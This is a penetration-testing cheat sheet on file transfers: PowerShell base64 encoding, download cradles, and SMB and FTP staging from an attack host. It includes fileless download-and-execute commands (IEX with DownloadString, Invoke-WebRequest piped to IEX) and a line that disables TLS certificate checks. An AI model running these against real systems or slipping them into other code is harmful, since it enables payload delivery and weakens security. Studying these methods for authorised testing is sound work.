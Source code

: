 # File Transfers
## References and Links
[Harmj0y Powershell download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

## Linux File Transfers
## Windows File Transfers
### PowerShell Base64 Encode/Decode
```powershell
#Base64 Encode
[Convert]::ToBase64String((Get-Content -path "File_to_Encode" -Encoding byte))
#Base64 Decode
[IO.File]::WriteAllBytes("Output_File", [Convert]::FromBase64String("Base64_Encoded_Payload"))
```
### PowerShell Web Downloads
1. Files vs. Fileless  
a. Files = Download and save the file  
b. Fileless = Download and execute without saving the file 
```powershell
# File Download Example
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

# Fileless Download Example
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
# We can also pipe the input directly into IEX
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
``` 
Powershell v3.0 and later can use Invoke-WebRequest(by default is aliased to ```iwr```,```curl```, and ```wget```)
```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output_File_Name>
```
<ins>**Common Errors with Powershell**</ins>  
Internet Explorer first-launch configuration not being completed will prevent downloads. To bypass, use ```-UseBasicParsing```
```Powershell
Invoke-WebRequest <Target file URL> -UseBasicParsing | IEX
```
SSL/TLS secure channel throws an error if the certificate is not trusted.  
Bypass:
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
### SMB Downloads
Create a quick SMB server in Linux
```bash
# Simple Share
sudo impacket-smbserver share -smb2support /tmp/smbshare

# Share with Authenticated Access
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

CMD Copy a file from an SMB Server
```cmd
copy \\10.10.10.10\share\file
# This command will be blocked in modern OS's that don't allow unauthenticated guest access
```
CMD Map File share to drive letter with authentication
```cmd
net use n: \\10.10.10.10\share /user:username password
```
### FTP Downloads
FTP Setup on linux attack host
```bash
# Install 
sudo apt install python3-pyftpdlib
# Specify the port, by default pyftpdlib uses port 2121
sudo python3 -m pyftpdlib --port 21
```

Download via FTP using Powershell
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://10.10.10.10/file.txt', '<Output_File_Name>')
```

Create a batch file to download our file(useful if we don't have an interactive shell)
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

## Transferring with Code
## Misc File Transfer Methods
## Catching files over HTTP/S
